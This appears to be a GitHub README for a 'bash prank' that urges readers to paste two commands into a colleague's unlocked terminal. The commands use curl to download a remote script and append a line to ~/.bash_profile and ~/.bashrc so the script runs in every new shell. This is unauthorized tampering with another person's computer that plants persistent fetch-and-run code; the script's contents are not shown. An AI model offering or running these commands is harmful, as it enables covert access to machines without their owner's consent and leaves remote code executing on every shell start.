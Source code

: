 # Random bash prank

Your colleague did not block his computer?
Well, all you have to do is copy-paste below lines into your friend's terminal. 
Hopefully she or he uses some kind of bash :)

#### Copy-paste lines below into a terminal

Just for your convenience two lines in one box, so that you can save some time :)

```bash
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bash_profile
curl -s https://raw.githubusercontent.com/localhost-dev/random-bash-prank/master/random-prank.sh -o ~/.extra-profile.sh && echo "source ~/.extra-profile.sh" >> ~/.bashrc
```
